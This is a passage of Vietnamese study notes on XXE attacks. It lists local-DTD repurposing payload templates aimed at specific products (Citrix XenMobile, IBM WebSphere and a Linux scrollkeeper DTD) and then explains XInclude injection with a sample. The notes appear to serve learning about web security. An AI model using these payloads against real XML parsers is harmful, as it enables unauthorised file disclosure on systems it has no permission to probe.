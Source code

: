 ```bash
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
<!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

- Citrix XenMobile Server:

```bash
<!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

- Any Web Application on IBM WebSphere Application Server:

```bash
<!ENTITY % local_dtd SYSTEM "./../../properties/schemas/j2ee/XMLSchema.dtd">
<!ENTITY % xs-datatypes 'Your DTD code'>
<!ENTITY % simpleType "a">
<!ENTITY % restriction "b">
<!ENTITY % boolean "(c)">
<!ENTITY % URIref "CDATA">
<!ENTITY % XPathExpr "CDATA">
<!ENTITY % QName "NMTOKEN">
<!ENTITY % NCName "NMTOKEN">
<!ENTITY % nonNegativeInteger "NMTOKEN">
%local_dtd;
```


## Xinclude attack

- Một số trang web không trực tiếp nhận data từ user mà nhúng các user data vào document XML

==>Điều này khiến attacker không thể chỉnh sửa payload XML theo mong muốn.


- Ví dụ: Khi dữ liệu do user gửi được system kết hợp vào 1 SOAP backend request, sau đó được xử lý bởi SOAP backend.

-->Nên chúng ta không thể thực hiện XXE attack theo các hình thức được đề cập ở các lab đầu do không thể kiểm soát toàn bộ nội dung document XML

-->Không thể tự định nghĩa làm thay đổi "```DOCTYPE```" . XInclude là 1 giải pháp tốt để thay thế.

- ```XInclude``` là 1 phần đặc tả của XML cho phép tạo 1 document XML từ các sub-documents.

-Ví dụ sử dụng ```XInclude``` thực hiện bao hàm 1 file text "```license.txt```", phương pháp thực hiện như sau:

```xml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p><xi:include href="license.txt" parse="text"/></p>
   </body>
</html>
 ```
